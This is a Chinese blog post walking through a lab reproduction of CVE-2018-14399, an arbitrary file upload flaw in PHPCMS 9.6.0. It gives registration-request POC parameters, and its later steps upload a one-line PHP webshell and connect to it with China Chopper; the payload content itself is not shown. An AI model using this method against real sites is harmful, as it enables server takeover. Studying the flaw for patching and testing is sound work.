# phpcms v9.6.0 任意文件上传漏洞(CVE-2018-14399) - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11394620.html`](https://www.cnblogs.com/yuzly/p/11394620.html)

phpcms v9.6.0 任意文件上传漏洞(CVE-2018-14399)

**一、漏洞描述**

PHPCMS 9.6.0 版本中的 libs/classes/attachment.class.php 文件存在漏洞,该漏洞源于 PHPCMS 程序在下载远程/本地文件时没有对文件的类型做正确的校验。远程攻击者可以利用该漏洞上传并执行任意的 PHP 代码。

**二、漏洞影响版本**

PHPCMS 9.6.0

**三、漏洞环境搭建**

1、 官方下载 phpcms v9.6.0 版本,下载地址: [`download.phpcms.cn/v9/9.6/`](http://download.phpcms.cn/v9/9.6/)

2、 解压下载的文件,然后把文件放到 phpstudy 的网站根目录下,浏览器访问 192.168.10.171/phpcms/install/install.php,开始安装

　　

3、一直点击下一步,在”选择模块”这个环节,选择”全新安装 PHPCMS V9”

　　

4、然后一直下一步,在”账号设置”这一块填写数据库账号和密码以及设置管理员密码

　　

5、然后一直下一步,直到出现如下界面,说面成功安装

　　

6、登录后台,生成首页

　　

**四、漏洞复现**

1、浏览器访问前台,注册一个会员

　　

2、点击注册页面,抓包

　　

3、在另一个系统(kali),开启 web 服务,然后在 web 根目录下创建一个 txt 文件,写入如下信息

　　

4、构造 POC

siteid=1&modelid=11&username=test2&password=test2123&email=test2@163.com&info[content]=&dosubmit=1&protocol=

5、修改抓包内容,添加 POC

　　

6、可以看到返回包的内容包含了上传文件的路径

　　

7、浏览器访问

　　

8、构造 POC,上传一句话

POC 内容:

siteid=1&modelid=11&username=testa&password=testa123&email=testa@163.com&info[content]=&dosubmit=1&protocol=

9、修改数据包,添加 POC,需要注意: 在 repeater 里测试 go 时每一次都要修改 username，password 和 email 字段值,保证不能重复。

　　

10、可以看到返回包的内容包含了上传文件的路径

　　

11、菜刀连接

　　